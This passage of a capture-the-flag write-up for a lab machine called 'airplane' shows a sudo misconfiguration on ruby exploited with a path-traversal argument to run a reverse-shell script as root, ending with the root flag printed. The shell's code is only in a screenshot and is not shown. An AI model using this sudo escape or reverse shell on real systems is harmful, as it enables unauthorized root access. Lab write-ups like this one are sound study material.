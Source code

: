 We can search for ruby sudo :

![[Pasted image 20250722165117.png]]

But won't work cause we're not in root directory, we can escape this somehow .

## Reverse Shell 

We can download a simple Ruby [[Reverse Shell]] :

![[Pasted image 20250722171025.png]]

We [[Nano]] it in the target machine and make it executable :

```bash
carlos@airplane:~$ nano shell.rb
carlos@airplane:~$ ls
Desktop  Documents  Downloads  Music  Pictures  Public  shell.rb  Templates  user.txt  Videos
carlos@airplane:~$ chmod +x shell.rb 
```

We setup the [[Netcat]] listener and we execute with the path :

```bash
carlos@airplane:~$ sudo /usr/bin/ruby /root/../home/carlos/shell.rb

# cat /root/root.txt
190dcbeb688ce5fe029f26a1e5fce002
```

Pwned !!

